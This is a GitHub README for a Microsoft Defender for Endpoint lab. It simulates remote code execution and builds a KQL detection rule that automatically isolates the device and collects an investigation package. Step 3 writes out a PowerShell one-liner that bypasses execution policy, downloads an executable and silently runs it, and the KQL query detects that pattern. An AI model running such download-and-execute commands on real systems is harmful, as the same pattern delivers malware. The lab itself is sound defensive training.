








# 🔒 Microsoft Defender for Endpoint – Custom Detection & Automated Isolation Lab

## 🧠 Overview
This lab demonstrates how to create and test a **custom detection rule** in **Microsoft Defender for Endpoint (MDE)** that detects suspicious PowerShell activity (e.g., using `Invoke-WebRequest` and `Start-Process`), triggers **automated isolation**, and collects an **investigation package** for deeper analysis.

The simulation mimics a **Remote Code Execution (RCE)** attempt using PowerShell — a common attack vector leveraged in initial access or malware delivery.

---

## 🎯 Objectives
- Onboard a Windows 10 VM into **Microsoft Defender for Endpoint**
- Simulate RCE behavior using `Invoke-WebRequest` and `Start-Process`
- Create a **KQL-based custom detection rule** scoped to your VM
- Trigger automated response actions:
  - 🧰 Collect Investigation Package  
  - 🔒 Isolate Device
- Validate detection, isolation, and package collection
- Release the VM from isolation and resolve the alert

---

## 🧪 Lab Setup

### 🖥️ Step 1: Create and Configure VM
- Create a **Windows 10** VM  
- Use a **strong password** (do not use `labuser/Cyberlab123!`)  
- Disable **Windows Firewall** for all profiles (`wf.msc`) to increase visibility

### 🛡️ Step 2: Onboard to MDE
- Follow onboarding at [Microsoft Security Portal](https://security.microsoft.com/machines)
- Confirm device is **Onboarded** and **Active**

📸 **Screenshot:**  


---

## 🧠 Step 3: Simulate RCE Activity
Run the following command inside your VM:

```cmd
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -NoProfile -Command "Invoke-WebRequest -Uri 'https://sacyberrange00.blob.core.windows.net/vm-applications/7z2408-x64.exe' -OutFile C:\ProgramData\7z2408-x64.exe; Start-Process 'C:\ProgramData\7z2408-x64.exe' -ArgumentList '/S' -Wait"
```

📸 **Screenshot:**  


---

## 📈 Step 4: Validate Logs in Advanced Hunting

```kql
let VMName = "cyberbob";
DeviceProcessEvents
| where DeviceName == VMName
| where InitiatingProcessCommandLine contains "Invoke-WebRequest" 
  and InitiatingProcessCommandLine contains "Start-Process"
```

📸 **Screenshot:**  


---

## ⚙️ Step 5: Create Custom Detection Rule

### **General Settings**
- **Name:** RCE Detection - CyberBob  
- **Frequency:** Continuous (NRT)  
- **Severity:** High  
- **Category:** Execution  
- **MITRE Technique:** T1059.001 – PowerShell  

📸 **Screenshot:**  


---

### **Alert Settings**
- **Alert Title:** Suspicious PowerShell Activity – File Download and Execution via Invoke-WebRequest  
- **Description:**  
  _The command may have been used to retrieve a payload from a remote server and execute it. Investigate if this was administrative or malicious. If malicious, isolate the device immediately._
- **Automated Actions:**  
  - ✅ Isolate Device  
  - ✅ Collect Investigation Package  

📸 **Screenshot:**  


---

## 🚨 Step 6: Trigger and Observe the Alert
- Run the simulated PowerShell command  
- Wait for logs to ingest  
- Custom detection rule triggers  
- Device becomes **isolated** automatically  
- Investigation package is collected

📸 **Screenshot:**  


📸 **Screenshot:**  


📸 **Screenshot:**  


---

## 📦 Step 7: Analyze Investigation Package
The package includes:
- Process Trees  
- File & Registry Changes  
- Network Connections  
- Event Logs  
- Memory Dumps  

Review to determine if the activity was malicious.

---

## 🔓 Step 8: Release Device from Isolation
Once reviewed:
- Assign alert to yourself
- Mark as resolved
- Release VM from isolation with justification: `Lab Activity`

📸 **Screenshot:**  


---

## 🧹 Step 9: Cleanup
- Delete your **Custom Detection Rule**
- Ensure VM reconnects and returns to healthy status

---

## 📊 Summary

| Component | Status |
|-----------|--------|
| Detection Rule | ✅ Created |
| Automation | ✅ Isolation + Package |
| Alert | ✅ Triggered |
| VM Isolation | ✅ Completed |
| Package | ✅ Collected |
| Resolution | ✅ Released & Resolved |

---

## 🧰 Tools Used
- Microsoft Defender for Endpoint (MDE)
- Microsoft 365 Security Portal
- Kusto Query Language (KQL)
- Windows 10 VM

---

## 🧠 MITRE ATT&CK Mapping
| Tactic | Technique | ID |
|--------|------------|----|
| Execution | PowerShell | T1059.001 |
| Defense Evasion | Signed Binary Proxy Execution | T1218 |

---

## 📝 Recommendations
- Monitor for **Invoke-WebRequest** usage
- Enforce **PowerShell Constrained Language Mode**
- Enable **Attack Surface Reduction (ASR)** rules
- Provide user awareness training on script-based attacks

---

## 📚 References
- [Microsoft Defender for Endpoint Docs](https://learn.microsoft.com/microsoft-365/security/defender-endpoint)
- [MITRE ATT&CK T1059.001](https://attack.mitre.org/techniques/T1059/001/)

---

### 👨‍💻 Author
**Allante Johnson (CyberBob)**  
🔗 [GitHub: CyberAllante](https://github.com/CyberAllante)
